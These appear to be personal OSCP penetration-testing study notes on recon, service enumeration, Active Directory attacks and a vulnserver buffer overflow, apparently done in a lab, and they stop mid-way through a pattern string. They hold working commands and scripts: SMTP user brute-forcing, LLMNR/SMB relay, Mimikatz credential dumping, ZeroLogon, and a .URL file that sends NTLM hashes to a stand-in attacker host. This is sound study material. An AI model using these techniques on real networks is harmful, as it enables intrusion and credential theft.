

# Hunter OSCP-Studying-Notes
# Ahmed Reda(Hunter)Study Notes

# **Recon**

## passive recon

to find emails:

- [https://hunter.io/](https://hunter.io/)
- [https://phonebook.cz/](https://phonebook.cz/)
- [https://clearbit.com/](https://clearbit.com/)

to verify emails : [https://tools.emailhippo.com/](https://tools.emailhippo.com/)

search for breached credentials in dehashed, google , have I been pawned..

---

## Web App Information Gathering

to find subdomains using **sublis3r** tool:

```bash
 sublist3r -d <domain.com> -t 100
```

to Identifying Website Technologies we will use ****Wappalyzer extension****

# **Scanning & Enumeration**

<aside>
💡 the most important rule here is to search all your findings like searching for exploits or any data related to the version of services u received and take note of every thing u see

</aside>

## Web App(HTTP/s) Enum

- scan the website with nmap and identify the ports and services

```bash
nmap -A  -p- -T4 <ip> 
```

- Run nikto to automate vuln scanning (it’s )

```bash
nikto --host=http://example.com
```

- try to fuzz the WebApp using dirbuster or any tool else
- spike the webapp and see the source code

## **SMB & NetBios Enum**

refers to a technique used to gather information about the network shares, users, and groups of a target system that uses the SMB protocol.

SMB Protocol works on TCP port number **445**, NetBios Protocol works on Ports

**(udp137 nameservice , udp138 datagram service, tcp139 sessions)**

**EternalBlue** is an exploit that targets SMBv1 and allows for remote code execution on a victim machine. It was famously used in the WannaCry ransomware attack in 2017, and is a powerful tool for attackers looking to gain access to a network. It is important to ensure that SMBv1 is disabled on all machines to prevent this vulnerability from being exploited.

in order to make a prober scan first we need to know which Hosts have the NetBios service 

we can know the machines that use the NetBIOS service in a network by **nbtscan** tool using this command: 

```bash
nbtscan -r -v  192.168.1.0/24
```


second we can see what we can access throw this service on every host, we can use **smbclient** to connect as a client by writting this command: 

```bash
smbclient -L 192.168.1.4
```


we can add credintials like user and pass we want login with by -u but the credits have to be clear txt form

and there’s another tool that can do same job but u can pass the credits hashed, it’s called **smbmap** we can use it by:

```bash
smbmap -H 192.168.1.4 -u hunter -p password
```

there’s another powerfull tool for enum part, it’s called **enum4linux**

```bash
sudo enum4linux 192.168.1.4 
```

and last but not least we can use the most popular tool which is **nmap**, we will use it with it’s scripts 

feature to enum, exploit the smb service by :

```bash
sudo nmap 192.168.1.4 -sV -p 139,445 --script="smb-enum-*"
```


using exploits scripts:

```bash
sudo nmap 192.168.1.4 -sV -p 139,445 --script="smb-vuln-*”
```


---

## **Network file system(NFS) Enum**

The Network File System (NFS) enum is a process of enumerating NFS shares on a remote server. It is a technique used in penetration testing to gather information and potentially gain unauthorized access, it works on port number **111**

in the last topic in smb,netbios services enum we were able to view or access the files of the other hosts here is the same but we can mount these files to our machine

in order to enum the NFS service we will look for the port 111 open 

there’s a lot of option like using nmap 

```bash
sudo nmap 192.168.1.4 -sV -p 111
```

and we can use NSE with it to get extra info like:

```bash
sudo nmap 192.168.1.4 -sV -p 111 --script rpcinfo
```


another option using **rpcinfo**:

```bash
rpcinfo -p 192.168.1.4
```


so know we are sure that there’s rpc and nfs , the next step to find any files we can access

using **showmount:**

```bash
sudo showmount -e 192.168.1.4
```

the system will list for the files u can access in our case we can access the whole system since the output is anything under the root /* as shown below


to mount the files in our machine we will start the rpc service :

```bash
sudo service rpcbind start
```

then start the mount :

```bash
sudo mount -t nfs 192.168.1.4:/ /tmp/meta
```

---

## **SMTP Enum**

SMTP enum is a technique used for enumerating or discovering email addresses on a mail server. It involves sending specific commands to the Simple Mail Transfer Protocol (SMTP) server to obtain information about valid email addresses on the domain, smtp works on port number 25

we can VRFY the users that exists on the mail server but this a manual method and non-realistic so the best way is to write a script for it using python3

```python
#!/usr/bin/python3
import sys
import socket

if len(sys.argv) != 3:
    print("[+] usage : ./smtp.py <ip> <users>")
    exit(0)

ip = sys.argv[1]
user = sys.argv[2]
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

c = s.connect((ip, 25))
banner = s.recv(1024)
print(banner)

command = ("VRFY " + user).encode()
s.send(command)
result = s.recv(1024)
print(result)
s.close()
```

we can modify it to bruteforcing users from a txt file 

```python
#!/usr/bin/python3
import sys
import socket

if len(sys.argv) != 3:
    print("[+] usage : ./smtp.py <ip> <users>")
    exit(0)

ip = sys.argv[1]
user_file = sys.argv[2]
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

c = s.connect((ip, 25))
banner = s.recv(1024)
print(banner)

with open(users.txt, "r") as f:
    for line in f:
        user = line.strip()
        command = ("VRFY " + user).encode()
        s.send(command)
        result = s.recv(1024)
        print(result)

s.close()
```

or by using smtp-user-enum:

```bash
smtp-user-enum -M VRFY -u usr.txt -t 192.168.1.4 -w 20
```


the output says 0 results because I’ve a problem with my metasploitable machine the response takes too long to response until it gets timed out message , the tool consider not responding as the user doesn’t exist

---

## **SNMP Enum**

SNMP (Simple Network Management Protocol) is a protocol used for network management and monitoring. It allows network devices to be managed and monitored from a central location using standardized messages and commands.

SNMP enum is a type of network reconnaissance tool that is used to enumerate information from target devices using Simple Network Management Protocol (SNMP) it works on port number      udp 161 .

we can use snmpwalk: 

```bash
snmpwalk -v1 -c public 192.168.1.4
```

we can use metasploit


# Exploitation

## **Active Directory**

### **Attacking Active Directory: Initial Attack Vectors**

- There are a lot of posts compromise attack which require some **sort of credential or lateral movement occurring.**
- in initial attack vector , we first have to find a way into the network ( and you are in as pentester ) but you are **given no credentials and nothing** so you are going to go through how we can abuse **feature of Windows and utilize this to get user accounts credentials and get access to the machine as well.**

### ****LLMNR Poisoning****

- **LLMNR** :  is link local multicast and name resolution **( It ‘s used to identify hosts when DNS failed to do that) and this previously known as NetBios .** Key flaw here is that when we respond to this service it actually responds back to us with username and password hash **(NTLMv2)** and it’s really bad.
- **LLMNR Poisoning :**  User type something wrong and this cause issue with DNS and DNS can’t resolve so decided to send a broad cast message to anybody know who it this and we set in middle and saying we know what you ‘re looking for and **send me your hash and  I will get you connected.**
    
    
    
- **Using Responder tool to make LLMNR Poisoning** (Responds to these request - You need a lot of traffic with this tool - Listening and not generating much traffic as Nmap so it’s the first step) - Event happens (Failing DNS in any way ) then Get Hash and username of what we captured - Crack the hash (hashcat -m 5600 hashes.txt rockyou.txt) **:**
    
    
    
- Responder in the wild - This tool using for different poisoners  :
    - **rwd :** this saying these are different types of what we ‘re gonna be listening on.
        
        
        
    - Hash of machine we are attacking :
        
        
        
    - hashcat -m 5600(cracking type) (folder name) (wordlist) - -force.
- **Defenses : LLMNR fails goes to DNS and the opposite is right.**
    
    
    

### SMB Relay Attacks - ( SMB ‘s off this is the best choice - One local admin to machines “Exploit the design” )

- **SMB Relay :** SMB signing is a packet level protocol and if SMB signing is enables when we try to relay credentials and it’s going to say hey you’re not really that person **( As packets not sign by you ) and When SMB disables , it never checks for that - The user being relayed has to have admin credentials on that machine -** Should happen on 2 **different(separate)** machines not on the same machine - **Take captured hash relay it over to another machine where is also an admin** and do malicious things to that machine - Listening but not responding to SMB and HTTP server.
    
    
    
- **ntmrelayx tool : T**here Responder capture( we didn’t use it here as it requires SMB to be open and this can’t happen) but not responding so we another tool use ntlmrelayx - **This tool takes the relay and passes it to a target file that you specify.**
- Our responder listening - Our Relay ready to go - Wait for an event to happen - Event happens **( DNS fail using wrong network drive ) - We are going to dumb SAM files** (Shadow of the windows world) **(These are all of our usernames and hashes for the local users on this computer).**
- ****Discovering Hosts with SMB Signing Disabled :**** Check SMB signing enable or disables for entire network - Return if port is open and if SMB signing enables or disabled - **We can do relay attack if no requirement or disabled SMB.**
    
    ```bash
    nmap --script=smb2-security-mode.nse -p445 (whole network)
    ```
    
- **Edit Responder.conf for do Relay attack (Turn off HTTP , SMB).**
- Using ntlmrelayx.py to do relay attack and set target :
    
    
    
- **Received connection from machine and connect to another machine :**
    
    
    
- **Remember fcastle here is an administrator of 2 machines** - **Now we have dumped SAM Hashes which like shadow file on Linux - With these hashes like gaining shells and getting access - This attack is by design ( many Local admins on different machines)  :**
    
    
    
- **Getting interactive shell (SMB shell) using SMB Relay attack  :**
    
    
    
    
    
- We have many options like -c to execute specific command on the machine :
    
    
    
- **Remember we must trigger this event.**
- **Defense :**
    
    
    
- **Gaining Shell Access : All we have is credential  - I**f we have SMB open and we have a username and password , we can use this user **especially that user has a machine and their local administrator to get a shell using psexec.**
    - **Using psexec with metasploit - Set subdomain & smbpass :**
        
        
        
    - Get a shell using [psexec.py](http://psexec.py)  and more different options to get shell:
        
        
        
    - If you can , they are only like half shells (not fully interactive) but good enough to navigate around C:drive and navigate around to know what ‘s antivirus is running , you will try to disable it and can run thing more robust like windows meterprter ( to get full shell) [Re use metasploit or any payload that ‘s not working after knowing about antivirus and disabling it]

### ****IPv6 Attacks (DNS takeover attacks using IP6)****

- Another form of relaying but it’s **so much reliable** because it utilized IPv6.
- On windows machines IPv6 is turned on but you utilize IPv4 **(Who does DNS for version 6 and the answer is no one)** - An attacker listen for all these the six messages that come through and say hey I ‘m your DNS and spoof DNS server and send all IPv6 to the attacker - When this happens we can get authentication to the Domain Controller via **LDAP or SMB  - Reboot a machine is just an event comes** to us and uses this machine to **log into domain controller and it doesn’t have to be admin or anything and we can get information or we can potentially use that machine to create another machine** - waiting for someone to log into network or use credentials then comes to use in from of **NTLM** like responder or SMB relay and do what is called **LDAP relaying (We LDAP relay over to the Domain controller and use it for creating accounts)**   **.**
- **Running the Attack using mitm6 :**
    
    
    
- Set a loot to be able to dump some information , **-wh fakewpad.marvel.local -** Shutting computer down and restart it make ipv6 asks who gets my DNS instead of asking every 30 min.**:**
    
    
    
    
    
    
    
- This domain user by group .html gives me some information that be seen as it is invisible ( Succeed with **a computer (Windows 10 machine)** capable of accessing this domain controller via LDAPS **logging into it and dumping out any useful information**) :
    
    
    
- When an admin try to log in the computer and attacking target LDAP and then it comes through and it tries to make a new user for us . First , it setup access control for us and then tries to **create new user saying there is username and password and now we are on domain** :
    
    
    
    
    
    
    
    - **New user in the domain and we have policy to have exclusive privileges with that access control  :**
        
        
        
    - **To restore the old policy we have a file with older ACL ( After attack we create new ACL)  :**
        
        
        
    - **For more :** [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- **Defense :**
    - Useful  Resource for LDAP and mitigation :
    
    [](https://4sysops.com/archives/secure-domain-controllers-with-ldap-channel-binding-and-ldap-signing/#rtoc-1)
    
    
    
    - LDAP signing and channel binding add a digital signature to the connection. It ensures the authenticity and integrity of the transmitted data. This means that the recipient can verify the sender and determine whether the data has been manipulated along the way.

### ****Passback Attacks****

- **Useful Resource :**
    
    [How to Hack Through a Pass-Back Attack: MFP Hacking Guide](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/)
    
- This attack goes with printers and IOT devices .
- We are looking for access to something that connects to LDAP or that does like an SMB connection ,etc :
    - With LDAP , if you change this from the domain controller ( or where LDAP server point to ) and change it to attacker’s machine as listener (Responder or netact) **we see a pssword in clear text ( All what reach you in plain text) .**

### ****Other Attack Vectors and Strategies****

- **Combining Attacks against AD :**
    
    
    
- **Notes :**
    - If I found LLMNAR ‘s disables this makes my mission more complex as I can’t het the hash and work with and this means that this company has pentest before.
    - After mitm6 or Responder , you are going to run scan using Nessus or Nmap and this is very loud . If scans are taking too long and if you have a big network , **here just look for websites that are in the scope  and this something that can be done to be quiet (Scanning entire network for website).**
    - Think about features like printer - it has scan feature - and this scan is a scan to computer feature (A lot of times , a dmin makes that user that **has to be able to scan  from the printer to computer via SMB a domain admin and here we can go in and dump those credential into clear text).**
    - When we ‘re looking for initial attack vector : we ‘re looking for hashes with responder - Get loot back from MITM6 or get an account created on the domain controller.
    - Much information , Much Enumeration is better.

### **Attacking Active Directory: Post-Compromise Enumeration**

- We have compromised a user account as we get FrankCastle user and it’s hash ( with Responder) and crack it and get on Machines using SMB relay **without getting the hash** and we able to **dump SAM file and collect hashes in that way after we have compromise the next it to enumerate the network using compromises .**
- **PowerView tool (Power shell tool) :** allows us to look at the network and to enumerate basically the domain controller , domain policy and etc.
- **Bloodhound tool :** visualize what is going in the network and where we can find sensitive user that might be log in and where we can find **shortest path to get the domain admin.**

### PowerView

- **Download the tool :**
    
    [PowerView-3.0 tips and tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
    
- **Useful Resource for powerview :**
    
    [Active Directory Enumeration With PowerView](https://www.youtube.com/watch?v=n3Ow_LKanMo)
    
- Running powerview from directly any windows machine we have , for attacker situation if he has access to a shell then we ‘ll use that shell and **we ‘re going to load powershell.**
- **Bypass execution policy using powershell - Ready for executing scripts :**
    
    
    
- **Up powerview to enumerating the domain :**
    
    
    
- **Get information about the domain ( where are domain controllers and much more) :**
    
    
    
- **Get information about domain controllers ( Name , ip and much more) :**
    
    
    
- **Get the domain policy :**
    
    
    
- **Get detailed information about system access of the policy** ( Note the Minimum password length and how to use this information or password complexity all these information open ways for hacker) :
    
    
    
- Get net users ( **Get data about users in domains , you can find interesting description with passwords sometimes** ) :
    
    
    
    
    
    - Filtering outputs to do it more easily.
- **Get the property the user might have :**
    
    
    
    
    
    - Get a specific property of item we want ( like password last list).
    
    
    
    - logoncount property which can identify **honeybot accounts.**
    
    
    
    - Get how many bad password to see if any of **these accounts is under attack ( many trials on it ).**
- **List all computers on the domain :**
    
    
    
    
    
    - for more information and as before you select specific property like OperatingSysetm ( Greb feature).
- **Get information about groups :**
    
    
    
    
    
    
    
                                            **Get all admin groups using wild card.**
    
    
    
    - Get information about specific member in the group.
- **Get all SMB sharing in the network :**
    
    
    
- **Get all group policy :**
    
    
    
    
    

### ****Bloodhound****

- **Download Invoke-Bloodhound :**
    
    [powershell/SharpHound.ps1 at master · puckiestyle/powershell](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)
    
- Download a data of AD ( when we are on a machine or network ) and visualize data on the graph.
- Run a tool called neo4j and we should to set it up - change default credentials- Go to local host to change default password for more security :
    
    
    
- ****Invoke-Bloodhound :**** power shell tool using for grabbing data - Downloading this file on Windows 10 machines ( which you get access from previous stage).
    - **To be able to use scripts :**
        
        
        
    - **Running sharphound :**
        
        
        
    - **Running the script to get data collection from specific domain - Get this file copied to kali machine  :**
        
        
        
- Now we have our data transferred from our windows machine ( we get in the last phase) to Bloodhound - Processing all json file  :
    
    
    
    - Here we find out the shortest path to Domain admins . Here , we should have session on the punisher machine **which has it local admin and this will lead us to DOMAIN ADMINS @MARVEL.LOCAL ( our domain admin) + Have session now unlike spiderman machine. [ Token impersenation ] .**
- We always do enumeration after each step and ask what information is here for us after we got access we enumerate and still in this cycle as every step you do , you have more information to know about.
- After compromising one account what can we do with that account?

### **Attacking Active Directory: Post-Compromise Attacks**

### ****Pass the Password Attacks****

- All these attacks here involve having some credentials first , so we should have username or password or shell on the machine , etc.
- After compromising a machine with username and password we use pass the password technique.
- Instead of cracking the hash we use them and pass them around the network.
- **Pass the password and try to pwn machines in the subnet :**
    
    
    
- **Using Metasploit using psexec module  :**
    
    
    
    
    
- **Crackmapexec :**
    - Needs username , password and **the domain or user name and password and using - - local ( if it’s local account ).**
    - When crackme doesn’t give me (pwn3d!) , this means that this password work and passing has succeed and if it ‘not pwn3d! this means that **user doesn’t have SMB access to the domain controller.**
        
        
        
    - **This will try to dump SAM file , sometimes it works and sometimes it doesn’t.**
        
        
        
    - And this will make us on authority system of another machine ( spiderman machine) and this will give us some information.
        
        
        
    - Using password spray would work here but against domain accounts it’s not preferred  but you can use password spray in local accounts and this another strategy when getting stuck or different passwords and patterns , here it’s better to try it with some different accounts even in admin account.
- ****Dumping Hashes with [secretsdump.py](http://secretsdump.py) :**
    - We found that we have 2 machines with same local admin network.
    - psexec is less than noisy the metasploit way in getting hashes after getting the shell .
    - **Getting hash dump - Dumping SAM , LSA and DPAPI key hashes - With 2 machines with eyes we can see if same hash shows up more than once :**
        
        
        
- ****Cracking NTLM Hashes with Hashcat :****
    - I am here interested in user account and admin account when you dump SAM file this hashed using NTLM v2.
    - **NTLM hashes can be passed NTLM B2 hashes cannot.**
        
        
        
    - Blank in front of hash means that the password is likely disabled. From cracking we could know the pattern of what password they use in the environment.
    - **Local admin accounts are so important especially if you’re reusing these passwords.**
    - Get hashes - **Success in green plus** :
        
        
        
    - We can use these hashes and try to gain shell using [psexec.py](http://psexec.py) (Here we need all hashes NTLM and LLMNR) :
        - Here we aren’t able to get any admin access via this one , although user can get access to the machine **we can’t get writeable share where you can upload and and get shell.**
            
            
            
- ****Mitigations :****
    
    
    

### ****Token Impersonation****

- If you can navigate to a machine and you **find a token of a domain administrator that you can impersonate then you have domain admin.**
- Token as cookies as they are temporary keys allow you access to a system or network without actually having to provide your credentials .
    
    
    
- Here we have user and get the shell (we ‘re shell here in meterpter) using tool called **Incognito in Metasploit.**
    
    
    
- **Token Impersonation :**
    
    
    
- Using Invoke-Mimikatz **powershell script** to dump the hashes :
    
    
    
- **If a Domain Admin token was available :**
    
    
    
    
    
    
    
    - **Running the script and dumping all hashes in the network .**
- Setting options for begin the exploitation (set RHOSTS , LHOSTS **,payload**) :
    
    
    
    
    
    - Get meterpeter session and get shell to the machine
    
    
    
    - **After we impersonate a token , we try to add user , local groups and etc -List tokens and get token for specific user and finally get the shell on this mcahine :**
        
        
        
    - Get hashdump will have some problem as we didn’t run the system of the machine but we solve this using rev2sel **[Note : where get the hash dumb of machine we make  Token personating to it & Another Note : All of these are delegation tokens ]**
    - In this attack , we took a token of user left behind ( **Like account on server that you might log into or get access to and there ‘s a domain admin who logged into that computer and server don’t don’t rebooted that much “Delegated token**”—> Token setting here until the reboot happens - moving to from to machine escalte )
- **Mitigation :**
    - Limit user/group token create permissions.
    - **Account tiering(Seperate accounts which on domain controllers and which didn’t) : Your domain administrator should logging into the machine that they need to access which should be domain controllers.**
    - **Local admin restriction :** if users are not local admins on their computers we cannot get shell on the computer with their account.

### ****Kerberoasting****

- **Useful Resources with more Information :**
    
    [Taming Kerberos - Computerphile](https://www.youtube.com/watch?v=qW361k3-BtU)
    
    [57 Active Directory - Kerberos Authentication | Offensive Security Certified Professional](https://www.youtube.com/watch?v=1NoDf1Kb8-U)
    
    - **TGS-REQ - Present TGT request (TGS) :** Messages written in SPN form this will use Kerberos authentication but it if ip written this will use NTLM authentication.
- Domain controllers is called as key distribution center (KDC) - We request for TGS (from service) using our TGT we get from previous stage - We receive TGS hashed by server.
    
    
    
- Valid user account which gives a ticket granting (Steps 1 , 2) , then we can request a service ticket for a service and service ticket is going to **be encrypted with these servers account hash (Crack the hash).**
    
    
    
    - **Request service tickets then we get GTS  with hash and this our time !!!**
- All we need in this attack is username and password from **a domain account ( domain we are interested in) - Service account shouldn’t be domain admin :**
    
    
    
- **Mitigation :** Strong Passwords - Least privilege.

### ****GPP / cPassword Attacks****

- **Resource :** **Group Policy Pwnage**:
    
    [Pentesting in the Real World: Group Policy Pwnage | Rapid7 Blog](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)
    
- **Group Policy Preferences (GPP) [MS14-025] :**
    - Group Policy preferences allowed admins **to create policies using embedded credentials.**
    - These Credentials were **encrypted** and placed in **“cPassword”.**
    - The key was **accidentally** released **(whoops).**
    - Patched in MS14-025 , but **doesn’t prevent previous uses.**
    - You search for **Groups.xml** when you search for GPP.
    - Port 445 open
    - Relation between **SMB and GPP attack in Enumeration phase we find that 445 port (Which SMB port is open and the attack involves utilizing SMB ) and we search with SMB for anonymous access[ For challenge] —> Search for Group.xml.**
    - When we in situation that we can use user credentials and TGS might have tipped off —> we think in ****Kerberoasting.****
    - Final tip for challenge : If you have a credential and **it doesn’t have to be that can get you onto the machine so we can use Kerberoasting or GPP to get stored credentials somewhere.**

### ****URL File Attacks****

- **Scenario :** You have compromised a user and this user has **any sort of file share access so we can utilize that access to capture more hashes using responder and get back to try to crack this hashes and may be get different users with more access.**
- **URL attack :**
    - This ip address will go to be attacker ip address to catch the hash :
        
        
        
    - Save this file in share folder :
        
        
        
        ```html
        [InternetShortcut]
        URL=blah
        WorkingDirectory=blah
        IconFile=\\x.x.x.x\%USERNAME%.icon
        IconIndex=1
        ```
        
        
        
    - To make this file at the top of the folder in file share folder and this ensures that it loads . **Note the filename and save as type.**
        
        
        
        - Using Responder to get the hash.
        
        
        
        - Getting hashes and you can relay to get to somewhere else it as well or crack it.
    - ****PrintNightmare (CVE-2021-1675) - Using Metasploit (msvenom) to create malicious dll to preform the attack “Generating payload”  :****
        
        [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)
        
        
        
        
        
        
        

### Mimikatz

- For download : [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- Using for Dump credentials on windows , extract plaint text password , PIN code and Kerbors tickets **from memory** - **This tool can get up with windows then the tool get patched and go back and forth** :
    
    
    
    - This tool will be downloaded for our Windows 10 machine or Domain controller “**Assuming we have compromised domain controller what we can do now and how to do persistence”** .
- **MimiKatz on Domain controller -Credential Dumping with Mimikatz :**
    - **Downloading and Exteracting mimikatz- there are different module on mimikatz with different potentials :**
        
        
        
    - First part in the command is the module (privilege::debug) to have debug on to bypass memory protections that are in the place especially for lsass.exe  - Dump information out of memory.
        
        
        
    - **Some attacks (Different options) to do the last we talked about :**
        - Dumping this for domain controller or regular computer are going to show us the computer username and NTLM (can be bypassed) hash for that and as well as any user that has logged since last reboot and that’s stored here in memory - **Take advantage of wdigest.**
            
            
            
        - Trying to dump SAM file (Another way if we can’t do that here we have different ways ) -**Might work** :
            
            
            
        - **Dump LSA information - This dump is important as we can took this and crack it offline ( what percentage can we crack) a**s this number will relay back to client to tell him about password policy (If it strong or weak) “How Bad is you policy is” (Pentest Approach) -NTLM here for kerbros granting ticket and this will help in golden ticket attack  :
            
            
            
- ****Golden Ticket Attacks :****
    - Here we will use golden ticket attack and pass attack- In mimikatz we **dump Kerbros TGT account and *with hash of that account we can generate kerbros TGT and then request access to any resource on the domain*** [Complete Access to the entire domain ].
    - **Doing injection and pull down the actual user we wan not all users :**
        
        
        
        - We need SID of the domain , NTLM hash for kerbros TGT , then **using kerbros and it doesn’t have to be real user - Getting familiar with id accounts to use it - ptt for passing the ticket - This will generate golden ticket and pass that ticket along to our nest session or current :**
            
            
            
            
            
        - **Get Command prompt - we can use psexec  installed and gain access to the machine you want :**
            
            
            

### About ZeroLogon

- **Useful Resource :**
    - What is ZeroLogon? - [https://www.trendmicro.com/en_us/what-is/zerologon.html](https://www.trendmicro.com/en_us/what-is/zerologon.html)
    - dirkjanm CVE-2020-1472 - [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
    - SecuraBV ZeroLogon Checker - [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)
- This bug enables us to attack domain controller ,setting password to null and take over domain controller.  **When run this attack if we do not restore the password , we will break the domain controller and this problem for pentest approach.**
- Setting domain controller authentication basically to Null **so we can authenticate with no password on the machine.**
- Attack phases :
    - **Check if our domain controller vulnerable for zerlogon attack :**
        
        
        
    - You should take care of not destroying the domain controller in real scenario if you fully sure to restore AD so  it :
        
        
        
    - After exploiting we will dump and do what we need to domain controller (Last phase here) :
        
        
        
- Restore the machine -Using Administrator hash and get the clear password of it then use it with [restorepassword.py](http://restorepassword.py) - Looked for plain password hex as this will be used for restoring domain controllers   and Remember take down domain controller is very dangerous :
    
    
    
    
    
    
    

### **Conclusion**

- **Useful Resource for recapping : videos 56 , 57 , 58.**
    
    [Ahmed | @Limbo0x01](https://www.youtube.com/playlist?list=PL_yseowcuqYJc7wXtGIsshYp1B_W0M-ZK)
    
- **Additional Resource :**
    
    [Active Directory Security – Active Directory & Enterprise Security, Methods to Secure Active Directory, Attack Methods & Effective Defenses, PowerShell, Tech Notes, & Geek Trivia…](https://adsecurity.org/)
    
    [harmj0y](https://blog.harmj0y.net/)
    

## Buffer Overflow Attacks

## Computer Arch basics

[40 Intro to Buffer Overflow - OSCP | Offensive Security Certified Professional](https://youtu.be/4rUN1F6_Mhk)

[Buffer Overflow شرح | OSCP Preparation | Ethical Hacking 0x1](https://www.youtube.com/watch?v=yRvuEVgSPBk&list=PL_yseowcuqYIaReP8ttfr0BAxbqZ7tmhq&pp=iAQB)

| Stack pointer (ESP) | points to the top of the stack |
| --- | --- |
| Base Pointer (EBB)  | points to the bottom of the stack |
| Instruction Pointer (EIP)  | points to the next instruction to be executed |

## Buffer overflow in action

in my situation I’m running immunity debugger and  vulnserver program which is a simple vulnerable server accepts connections on **9999** port by default and the TRUN command we will work on

### Spiking

in my situation I’m running immunity debugger and  vulnserver program which is a simple vulnerable server accepts connections on **9999** port by default and the  TRUN command we will work on

first we need to know which input is vulnerable this process is called spiking, we can do this by tool called  **generic_send_tcp  it take spiking script as an argument ,**it will send many connections and if it’s crashed so it’s a vuln input here:

```bash
#trun.spk script 

s_readline();
s_string("TRUN")' #TRUN is the exact name of the vuln command
s_string_variable("0");
```


```bash
 generic_send_tcp 192.168.1.2 9999 trun.spk 0 0 
```

### Fuzzing

in this process we try to estimate at what point the command will crash so we send chars and increasing it every time till it crash using this python script:

```python
#!/bin/python3

import sys,socket
from time import sleep

buffer= "A" * 100
while True:
    try:
        s=socket.socket(socket.AF_INET , socket.SOCK_STREAM)
        s.connect(('192.168.1.2',9999))
        s.send(('TRUN / .:/' + buffer).encode())
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
        
    except:
        print('Fuzzing crashed at = %s' % str(len(buffer)))
        sys.exit()
```


receiving connections 


crashed

here we can see it’s crashed at what point


### Finding The Offset

here we gonna be looking for where we can control the **EIP, using :**

# -l for length which we got from fuzzing script ( I round it up)

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500
```

let’s modify our script to send this payload we got and send it again 

```python
#!/bin/python3

import sys,socket
from time import sleep

offset =" Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9B